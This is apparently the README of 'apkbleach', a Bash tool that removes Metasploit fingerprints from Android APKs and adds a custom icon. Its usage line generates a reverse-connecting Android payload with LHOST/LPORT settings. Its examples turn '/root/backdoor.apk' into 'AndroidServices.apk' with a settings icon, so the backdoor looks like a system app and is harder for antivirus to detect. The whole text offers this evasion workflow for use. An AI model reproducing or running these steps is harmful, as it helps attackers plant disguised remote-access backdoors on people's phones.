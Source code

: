 # apkbleach
This BASH script will remove the obvious fingerprints of metasploit through out a given apk file. It also gives the option to inject a custom app icon

After you cd into the repo directory run the install script or manually move apkbleach to /usr/local/bin
   $ bash install.sh
   
Usage: 

         Usage: apkbleach -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use> -i <path/to/image.png> -o  <path/to/outputname.apk>

Options:

        -o  <outputname.apk>        Sets the name of custom output file
  
        -i  <path/to/image.png>     Sets image.png as the icon of the file.apk
  
        -h                          Help menu

Examples: 

         apkbleach /root/backdoor.apk

         apkbleach /root/backdoor.apk -o AndroidServices.apk

         apkbleach /root/backdoor.apk -o AndroidServices.apk -i /root/settings.png

         apkbleach /root/backdoor.apk -i /root/settings.png
